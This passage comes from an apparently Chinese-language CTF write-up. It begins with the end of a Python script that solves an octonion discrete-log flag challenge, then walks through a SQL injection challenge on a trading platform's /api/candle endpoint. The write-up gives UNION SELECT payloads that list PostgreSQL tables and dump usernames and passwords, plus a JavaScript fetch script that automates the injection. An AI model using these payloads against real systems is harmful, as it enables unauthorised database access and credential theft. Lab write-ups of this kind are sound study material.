p_values = [(2583961393124689294, 8842444769950689367, 4170181661695443357, 7427347274650624515, 8762064718542289121, 4924114857909427438, 8254435053083245238, 3865989035098849998), (9390581101018884294, 6267292199190974798, 2487888919817872674, 129980328542208494, 6356694149559466670, 5309808005806605021, 8540029166906177731, 9959707490561246573), (2139172747820404328, 9520341517914080247, 634407511148046685, 7124426943152012607, 4743178403982683991, 445753785323626410, 7032865423858525860, 3696049703873368095), (687607266953489845, 6144974737654240990, 2254809131420569231, 3832162320365054162, 5382400097940587534, 6418332395883676482, 9762514118546614117, 1981133591406604390), (4047231963721293584, 487473038052228452, 5345995079227352909, 3746901856496580260, 1566177799893559891, 1691717531840944718, 3463882468216200992, 4161755035167877852), (8711720817485419840, 959657504509732611, 5797342605024398979, 6309227230734130064, 6224351733033287286, 4385204122015664877, 4002818635168873193, 1624433274528223730), (7001704653935800164, 5081402287917402284, 2986513429408482601, 2154489313382210889, 1836662389779964705, 3475381082745954347, 3568053631090355483, 8041681259800860855), (6023084596520182706, 1266555691839688088, 6596397432441587563, 3436043140481858223, 5448083766075053161, 7961725923926091336, 7733860074642144985, 2381467646729031398), (4569862090838257431, 9793820609670682487, 6437634826481321666, 1568021668471068840, 9696832966818128628, 7243152738458186496, 1213417816967123436, 5575513943033307815), (5263438240042141936, 1893403484269150389, 7380337384539430612, 7033393360279009219, 7576500860818194392, 8785946218738102266, 5932920727213598831, 671496402022901442), (5742431975637184649, 4558952396478167969, 3272116659215946474, 5093314079430381366, 160245373616871902, 4319684377783307871, 7358617726190848671, 8567392658245701684), (24060375850412094, 146795311497113158, 9318404457303165194, 5259633135716474575, 3068110507589684212, 6780984028655561727, 4609525604391231510, 3088989565191316841), (198370631337150511, 6241626306514851157, 8353031322626037067, 3028413254862244940, 5304351316095975998, 3787672497054794849, 22298620109690925, 8515716093894603589), (9688768923159055707, 4843020139290194192, 733685697342314926, 7418611531022954408, 3291662143326182432, 9051892709906095825, 3928729177050086900, 6957303361513439315), (3757673232582404281, 10066664323395636880, 1969028735001403530, 7887979688343159813, 3559189766903120848, 1550179832857744719, 5907460108294969807, 4174354060378207208), (2661718442995948616, 7140098330133703199, 6033758515757807459, 2965255247910264923, 1729758167149142164, 1601107605635392276, 5348942571419942813, 1843218411991996263), (1496085783011265425, 2629908734327904337, 6455183744294837009, 8034793242187225966, 36322358004664435, 4607029705760998443, 1088933129905388134, 562786189202990526), (428085163195140272, 7166158195955553981, 7242197013397222081, 2567749438437710048, 2955047033366103842, 9899380380991173562, 9367471658588391550, 8208418355438220880), (9581266463826468288, 7689533835854790753, 9129659335487413861, 6042386244654213234, 1575020037204780, 2574365497803349308, 1048194458601777710, 9593760651184185425), (166882818068945302, 5956691019673706254, 7754581657025321263, 1495540636327907607, 8523204674378963317, 5993088564781368057, 9909442931739781314, 1555331038201990475), (5536207395691203168, 172718910157388475, 4277376248573318366, 3496204658393274744, 4666647426074950045, 8951414434239938815, 1738452085869879449, 844702974492393528), (1953646597174251197, 520255866176999648, 9201479232847443399, 3007988377949811689, 9242777357922967656, 1744971674795161604, 6452575727843440448, 9247136615827751059), (8116967291375304138, 4452875418647948459, 1951511213006070298, 4249891090894861490, 1802213631146186343, 7846762792000578287, 4804148735680938571, 9019883553559069665), (258966175108999581, 3780661643880199014, 3643052237586147720, 1927352454651661522, 10014799042602557917, 8634402613143124106, 9026138884606821160, 9940791316408975247), (783959379563558198, 8421237270521799603, 2344710836706608804, 9727925929109458865, 953618966299619689, 7788041473478904123, 4652351439833564998, 1662368071819459578), (5691917755802255373, 8767353877530819691, 3676020525214782723, 3260293348771677262, 8082496602586408343, 5529900356501151318, 2128655848024469611, 7418386051373840705), (4728215236736127240, 4251922687352861655, 7863442615622603638, 6739522456279263931, 8268365227939237419, 1768247826551992593, 3169963224977611818, 8540394020450557639)]
q_values = [(186376185286229664, 152469858757049493, 9125713267400674034, 6106687010444744724, 7973723570278317894, 9098773704694875729, 2402603393003736573, 3256339230640892647), (7660762602810460894, 2965270828966176837, 7456834704597029395, 2162867526192871431, 8419272876164059681, 3303744313383867474, 7167585561223249851, 6007506884713288560), (5437798718606783254, 629293637233418833, 6400809961949937533, 4368690936103091468, 9112440758651847550, 2378105470797551086, 362979401038833811, 2424364394604845691), (2337208007634683173, 9220433310447549918, 7225760634207727568, 4239153346581621018, 5701731955146648268, 10008846195907116233, 7296645629619799455, 7839018585966617577), (6909553069690768416, 9492425232574475969, 7229249595051639838, 1359798125625649481, 615278618219529914, 9691445341886404542, 1132403423445014446, 9005033045637512327), (2369667290064978780, 4536229182636172925, 7102029003052328013, 4125234010738964072, 7985527399079747952, 7186205653071669996, 4985995864923693040, 5085767382803439632), (1334355823720674333, 1831849778146235285, 319304796746456162, 8409487402687450360, 6634693561690160997, 2508178118310683904, 2442414903524150847, 6152123401730099745), (6074902504134820899, 8697204139359279130, 2625883987406441801, 4819367389006949676, 4236772626300156175, 8734893348286653861, 8468116234353497823, 9031076948562985222), (5396822391542332581, 6869568555129521477, 1002941366429151246, 9196177440560628045, 5314027290968420124, 8073306886795621430, 7267319980078121028, 2019507063699023819), (4694948229531817664, 10043710771945324883, 7440368888750637118, 3020812007567212428, 8645305641882032664, 3614977878560642311, 571794611563384673, 9139223523223361701), (2968093467994223596, 7221006146688946131, 8186045268169568997, 4065166525060272961, 3549582647688327095, 9420120731369152049, 9151969914294013437, 5537808877265870170), (4149895141987353925, 524705663884482245, 5585808238149130483, 7428944489963034189, 6408901244136349191, 3220825324141979454, 6209710199209975212, 9088453605860669403), (2089376260697862547, 747162935199984977, 1312346401039655971, 9161199126646416454, 7311020896407621773, 6554073685269821279, 9131259733356761480, 590159736614677772), (4076772866410677268, 3005194172830473262, 2229610205014161175, 5886956867886767395, 93827477851478442, 2049855148651253235, 590731316112844780, 908037466260837798), (6719663972671589482, 590194640498502574, 215157443890698309, 8890095920739285824, 7114435802515995222, 8546134315482945559, 2404069157362603006, 5711924953680567444), (6342944326451931167, 3738147384864638707, 3515747988912161644, 8471675619245336261, 8628812435466435182, 9373679702580078911, 9604868948845432817, 6346528147064502582), (3764898346372959206, 88746743484439045, 4869037857721001948, 615392886084816703, 8365232500540518363, 9397402291310697450, 7575221584004936892, 9169101131429713483), (4351537824890757863, 6813414380259544211, 3081018568662125818, 9424486192904919307, 237634629511029731, 8109975327143744835, 9875313038114827702, 6992343154072098270), (2693635651456818557, 8703138374624938203, 8269518331421122946, 7283220116644841287, 2540378971756559925, 163339742034318030, 3169588168504486632, 6228343084877447239), (8765116805917389368, 2320594770925983810, 541478674918679729, 8704979455584355829, 8484605189486236264, 6393424770910966708, 3394246877018908380, 3699589890992075237), (5284630394207282298, 940724366845601622, 8190644816572557779, 4272295018101856859, 7325265570023166297, 6851702722976872632, 6997528844940439757, 8106510181080944835), (7115838709904650805, 3927352339443398537, 2570980300315516328, 8356836668889032438, 9620445776135290722, 8931185556356605337, 2839071142758167286, 8161157028611032727), (3230976292155441796, 9440338004534995165, 483433722585645146, 10023929600820428909, 1849436049546265069, 653770681236838327, 7470723916313501083, 6718961761444634368), (6629571378553335591, 4452623644302646708, 8441059908514819979, 7409272781966230902, 6016173845590102264, 575578378508072587, 9759504059624305183, 9256620502104334923), (2158726205127286565, 9299305826297305265, 8631081756995410787, 8583483126947953808, 9412257187838364578, 3220030930378358797, 6888328081249726243, 4490503035810567970), (7516976755210294674, 8201980523137985003, 6796100887055158089, 1425261067945176484, 2358445081805925795, 8194045390470345440, 6107065432047430247, 6839589613978505579), (803382986867126275, 9103578439093325393, 1853674772667097182, 7635889894531825242, 1443277705430499895, 5523152800942884222, 6387005037447485657, 7470745874974243692)]

# ===================================

if __name__ == "__main__":
    print("Fast Octonion DLP Solver")
    print("========================")
    
    flag_with_rk = recover_flag_fast(m, p_values, q_values)
    
    print(f"\n{'='*50}")
    print("FINAL RESULT:")
    print(f"{'='*50}")
    print(f"Raw bytes: {flag_with_rk}")
    print(f"Hex: {flag_with_rk.hex()}")
    
    try:
        decoded = flag_with_rk.decode('utf-8')
        print(f"Decoded: {decoded}")
    except UnicodeDecodeError:
        decoded = flag_with_rk.decode('utf-8', errors='ignore')
        print(f"Decoded (ignore errors): {decoded}")

```

人机对话
---

[复制或点击打开链接](https://chat.deepseek.com/share/ra2jld4ic4i2lvj5lx)


题目信息 - [Hard] tradingPlatform2
===

过程
---

这是sql注入。我从未接触过sql注入，以至于我在这题上花费了半天时间。先花了半天时间，问AI，先使用浏览器插件改Headers，然后修改payload，改token，终于进入主页面。然而完整的渗透根本不需要进入主页面，所有sql注入操作在登录页面即可完成。

在该网站有两个api可访问，一个是/api/login，另一个是/api/candle（股票的数据库？）。向candle注入信息：

```
 x' UNION SELECT tablename,'2025-10-31T00:00:00','1','1','1','1' FROM pg_tables --
```

可以查到服务器所有数据库的名称，其中有一个users的数据库，这就是目标要查找的表。接着查users的表头信息（怎么注入的我忘了），得到表头：allow_login, id, password, role, username。获取到表头后就可以继续对users数据库注入。注入信息：

```
x' UNION SELECT username,'2025-10-31T00:00:00',password,'1','1','1' FROM ctf.users --
```

即可获取到两个密码，一个是admin的密码，另一个是flag。


附
---

截图
---



代码
---

```javascript
// 检查是否有其他隐藏的表
async function checkForOtherTables() {
    console.log('🔍 检查其他表...');
    
    const otherTableChecks = [
        // 检查所有表（包括系统表）
        "x' UNION SELECT username,'2025-10-31T00:00:00',password,'1','1','1' FROM ctf.users --",
    ];
    
    for (const check of otherTableChecks) {
        try {
            const url = `/api/candle?symbol=${encodeURIComponent(check)}&start_time=2025-10-31&end_time=2025-11-01`;
            const response = await fetch(url, { credentials: 'include' });
            const data = await response.json();
            
            // 处理不同的响应格式
            if (Array.isArray(data)) {
                // 数组格式
                data.forEach((item, index) => {
                    if (item && typeof item === 'object') {
                        console.log(`项目 ${index}:`, item);
                        // 检查每个字段
                        Object.entries(item).forEach(([key, value]) => {
                            if (typeof value === 'string' && (value.includes('ctf{') || value.includes('flag{'))) {
                                console.log('🎉 🎉 🎉 找到 Flag:', value);
                            }
                            if (value && value !== 'BTC-USDT' && value !== 'x' && value !== '1') {
                                console.log(`字段 ${key}: ${value}`);
                            }
                        });
                    }
                });
            } else if (typeof data === 'object' && data !== null) {
                // 对象格式
                console.log('对象响应:', data);
                Object.entries(data).forEach(([key, value]) => {
                    if (typeof value === 'string' && (value.includes('ctf{') || value.includes('flag{'))) {
                        console.log('🎉 🎉 🎉 找到 Flag:', value);
                    }
                });
            } else {
                // 其他格式
                console.log('其他格式:', data);
            }
            
        } catch (e) {
            console.log('检查错误:', e.message);
        }
    }
}
checkForOtherTables();
```

人机对话
---

[对话1（复制或点击打开链接）](https://chat.deepseek.com/share/af4z8my88b62mgt62d)

[对话2（复制或点击打开链接）](https://chat.deepseek.com/share/05m54zez2e0og9h2c2)